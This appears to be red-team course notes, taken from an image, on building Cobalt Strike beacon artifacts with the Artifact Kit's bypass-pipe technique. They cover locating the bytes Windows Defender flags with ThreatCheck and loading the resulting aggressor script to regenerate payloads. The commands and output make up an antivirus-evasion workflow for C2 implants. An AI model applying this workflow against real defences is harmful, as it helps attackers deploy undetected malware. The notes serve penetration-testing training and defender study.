 # Artifact Kit

- Get threats Windows Defender has detected on the computer (check Resources value: file = disk)

```
PS C:\> Get-MpThreatDetection | sort $_.InitialDetectionTime | select -First 1
```

- Show the usage of build.sh

```
ubuntu@james /m/c/T/c/a/k/artifact> ./build.sh
[Artifact kit] [-] Usage:
[Artifact kit] [-] ./build <techniques> <allocator> <stage size> <rdll size> <include resource file> <stack spoof> <syscalls> <output directory>
[Artifact kit] [-]  - Techniques       - a space separated list
[Artifact kit] [-]  - Allocator        - set how to allocate memory for the reflective loader.
[Artifact kit] [-]                       Valid values [HeapAlloc VirtualAlloc MapViewOfFile]
[Artifact kit] [-]  - Stage Size       - integer used to set the space needed for the beacon stage.
[Artifact kit] [-]                       For a 0K   RDLL stage size should be 310272 or larger
[Artifact kit] [-]                       For a 5K   RDLL stage size should be 310272 or larger
[Artifact kit] [-]                       For a 100K RDLL stage size should be 444928 or larger
[Artifact kit] [-]  - RDLL Size        - integer used to specify the RDLL size. Valid values [0, 5, 100]
[Artifact kit] [-]  - Resource File    - true or false to include the resource file
[Artifact kit] [-]  - Stack Spoof      - true or false to use the stack spoofing technique
[Artifact kit] [-]  - Syscalls         - set the system call method
[Artifact kit] [-]                       Valid values [none embedded indirect indirect_randomized]
[Artifact kit] [-]  - Output Directory - Destination directory to save the output
[Artifact kit] [-] Example:
[Artifact kit] [-]   ./build.sh "peek pipe readfile" HeapAlloc 310272 5 true true indirect /tmp/dist/artifact
```

- Use the Artifact Kit to build a new set of artifact templates using the bypass-pipe technique

```
ubuntu@james /m/c/T/c/a/k/artifact> ./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts
[Artifact kit] [+] You have a x86_64 mingw--I will recompile the artifacts
[Artifact kit] [*] Using allocator: VirtualAlloc
[Artifact kit] [*] Using STAGE size: 310272
[Artifact kit] [*] Using RDLL size: 5K
[Artifact kit] [*] Using system call method: none
[Artifact kit] [+] Artifact Kit: Building artifacts for technique: pipe
[Artifact kit] [*] Recompile artifact32.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32svc.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32big.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32big.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32svcbig.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64.x64.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64svc.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64big.x64.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64big.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64svcbig.exe with src-common/bypass-pipe.c
[Artifact kit] [+] The artifacts for the bypass technique 'pipe' are saved in '/mnt/c/Tools/cobaltstrike/artifacts/pipe'
```

*Each artifact flavour will be compiled to /mnt/c/Tools/cobaltstrike/artifacts/pipe/, along with an aggressor script, artifact.cna.*

```
ubuntu@james /m/c/T/c/a/k/artifact> ls -l /mnt/c/Tools/cobaltstrike/artifacts/pipe/
total 2044
-rwxrwxrwx 1 ubuntu ubuntu  11914 Nov  6 14:56 artifact.cna*
-rwxrwxrwx 1 ubuntu ubuntu  14336 Nov  6 14:55 artifact32.dll*
-rwxrwxrwx 1 ubuntu ubuntu  14848 Nov  6 14:55 artifact32.exe*
-rwxrwxrwx 1 ubuntu ubuntu 323584 Nov  6 14:55 artifact32big.dll*
-rwxrwxrwx 1 ubuntu ubuntu 324096 Nov  6 14:55 artifact32big.exe*
-rwxrwxrwx 1 ubuntu ubuntu  15360 Nov  6 14:55 artifact32svc.exe*
-rwxrwxrwx 1 ubuntu ubuntu 324608 Nov  6 14:55 artifact32svcbig.exe*
-rwxrwxrwx 1 ubuntu ubuntu  19456 Nov  6 14:56 artifact64.exe*
-rwxrwxrwx 1 ubuntu ubuntu  18432 Nov  6 14:55 artifact64.x64.dll*
-rwxrwxrwx 1 ubuntu ubuntu 328704 Nov  6 14:56 artifact64big.exe*
-rwxrwxrwx 1 ubuntu ubuntu 327680 Nov  6 14:56 artifact64big.x64.dll*
-rwxrwxrwx 1 ubuntu ubuntu  20480 Nov  6 14:56 artifact64svc.exe*
-rwxrwxrwx 1 ubuntu ubuntu 329728 Nov  6 14:56 artifact64svcbig.exe*
```

- *'32/64' denotes 32 and 64bit architectures.*
- *'big' denotes that it's stageless.*
- *'svc' denotes that it's a service executable.*

- Scan a Windows Service EXE with ThreatCheck

```
PS C:\Users\james> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Tools\cobaltstrike\artifacts\pipe\artifact64svcbig.exe
[+] Target file size: 329728 bytes
[+] Analyzing...
[!] Identified end of bad bytes at offset 0xBEC
00000000   B9 06 00 00 00 4C 89 E7  4C 8D 05 05 E9 04 00 F3   1····L?çL?··é··ó
00000010   AB 4C 89 E9 C7 84 24 88  00 00 00 68 00 00 00 FF   «L?éÇ?$?···h···ÿ
00000020   15 57 2D 05 00 45 31 C9  45 31 C0 31 C9 4C 89 64   ·W-··E1ÉE1A1ÉL?d
00000030   24 48 4C 89 EA 48 89 6C  24 40 48 C7 44 24 38 00   $HL?êH?l$@HÇD$8·
00000040   00 00 00 48 C7 44 24 30  00 00 00 00 C7 44 24 28   ···HÇD$0····ÇD$(
00000050   04 00 00 00 C7 44 24 20  01 00 00 00 FF 15 8A 2B   ····ÇD$ ····ÿ·?+
00000060   05 00 85 C0 74 32 48 8B  4C 24 70 48 85 C9 74 28   ··?At2H?L$pH?Ét(
00000070   0F 10 44 24 70 48 8D 54  24 50 4C 63 CE 49 89 D8   ··D$pH?T$PLcII?O
00000080   48 8B 84 24 80 00 00 00  0F 11 44 24 50 48 89 44   H??$?·····D$PH?D
00000090   24 60 E8 6E FE FF FF 90  48 81 C4 F8 04 00 00 5B   $`èn_ÿÿ?H?Äo···[
000000A0   5E 5F 5D 41 5C 41 5D C3  57 56 48 83 EC 68 48 8D   ^_]A\A]AWVH?ìhH?
000000B0   35 62 E8 04 00 31 C0 49  89 C9 48 8D 7C 24 20 B9   5bè··1AI?ÉH?|$ 1
000000C0   10 00 00 00 41 89 D2 F3  A5 4C 89 C2 4C 8D 44 24   ····A?Oó¥L?AL?D$
000000D0   20 48 89 C1 83 E1 07 8A  0C 0A 41 30 0C 00 48 FF    H?A?á·?··A0··Hÿ
000000E0   C0 48 83 F8 40 75 EA 31  C0 41 39 C2 7E 12 48 89   AH?o@uê1AA9A~·H?
000000F0   C1 83 E1 07 8A 0C 0A 41  30 0C 01 48 FF C0 EB E9   A?á·?··A0··HÿAëé
```

*IDA and Ghidra can help here because it allows you to dissect the file.*

*This methodology should always get you through.  Each artifact type will also likely have different signatures used to detect them that you'll need to work through.*

*Load the aggressor script.  Go to Cobalt Strike > Script Manager > Load and select the artifact.cna file in your output directory.  Any DLL and EXE payloads that you generate from hereon will use those new artifacts, so use Payloads > Windows Stageless Generate All Payloads to replace all of your payloads in C:\Payloads.*

*Strongly advised to delete the existing payloads first because they sometimes only get partially overwritten with the new ones.*
